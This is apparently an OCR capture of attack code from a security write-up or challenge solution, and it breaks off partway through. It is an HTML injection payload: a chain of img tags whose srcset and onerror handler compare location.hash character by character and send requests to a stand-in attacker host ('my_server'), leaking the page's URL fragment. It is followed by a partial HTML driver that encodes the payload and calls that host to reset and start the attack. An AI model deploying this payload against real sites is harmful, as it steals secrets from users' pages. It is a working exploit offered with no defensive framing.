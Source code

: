 ``` js
<img srcset=//my_server/u id=n30>
<img srcset=//my_server/v id=n31>
<img srcset=//my_server/w id=n32>
<img srcset=//my_server/x id=n33>
<img srcset=//my_server/y id=n34>
<img srcset=//my_server/z id=n35>

<img id=lo srcset=//my_server/loop onerror=
n0.alt+identifier<location.hash+1?n0.src+++lo.src++:
n0.alt+identifier<location.hash+2?n1.src+++lo.src++:
n0.alt+identifier<location.hash+3?n2.src+++lo.src++:
n0.alt+identifier<location.hash+4?n3.src+++lo.src++:
n0.alt+identifier<location.hash+5?n4.src+++lo.src++:
n0.alt+identifier<location.hash+6?n5.src+++lo.src++:
n0.alt+identifier<location.hash+7?n6.src+++lo.src++:
n0.alt+identifier<location.hash+8?n7.src+++lo.src++:
n0.alt+identifier<location.hash+9?n8.src+++lo.src++:
n0.alt+identifier<location.hash+n1.alt?n9.src+++lo.src++:
n0.alt+identifier<location.hash+n2.alt?n10.src+++lo.src++:
n0.alt+identifier<location.hash+n3.alt?n11.src+++lo.src++:
n0.alt+identifier<location.hash+n4.alt?n12.src+++lo.src++:
n0.alt+identifier<location.hash+n5.alt?n13.src+++lo.src++:
n0.alt+identifier<location.hash+n6.alt?n14.src+++lo.src++:
n0.alt+identifier<location.hash+n7.alt?n15.src+++lo.src++:
n0.alt+identifier<location.hash+n8.alt?n16.src+++lo.src++:
n0.alt+identifier<location.hash+n9.alt?n17.src+++lo.src++:
n0.alt+identifier<location.hash+n10.alt?n18.src+++lo.src++:
n0.alt+identifier<location.hash+n11.alt?n19.src+++lo.src++:
n0.alt+identifier<location.hash+n12.alt?n20.src+++lo.src++:
n0.alt+identifier<location.hash+n13.alt?n21.src+++lo.src++:
n0.alt+identifier<location.hash+n14.alt?n22.src+++lo.src++:
n0.alt+identifier<location.hash+n15.alt?n23.src+++lo.src++:
n0.alt+identifier<location.hash+n16.alt?n24.src+++lo.src++:
n0.alt+identifier<location.hash+n17.alt?n25.src+++lo.src++:
n0.alt+identifier<location.hash+n18.alt?n26.src+++lo.src++:
n0.alt+identifier<location.hash+n19.alt?n27.src+++lo.src++:
n0.alt+identifier<location.hash+n20.alt?n28.src+++lo.src++:
n0.alt+identifier<location.hash+n21.alt?n29.src+++lo.src++:
n0.alt+identifier<location.hash+n22.alt?n30.src+++lo.src++:
n0.alt+identifier<location.hash+n23.alt?n31.src+++lo.src++:
n0.alt+identifier<location.hash+n24.alt?n32.src+++lo.src++:
n0.alt+identifier<location.hash+n25.alt?n33.src+++lo.src++:
n0.alt+identifier<location.hash+n26.alt?n34.src+++lo.src++:
n35.src+++lo.src++>`
```

``` html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
  </head>
  <body>  
  </body>
  <script>
    var payload = // see above
    payload = encodeURIComponent(payload)

    var baseUrl = 'https://my_server'

    // reset first
    fetch(baseUrl + '/reset').then(() => {
      start()
    })
```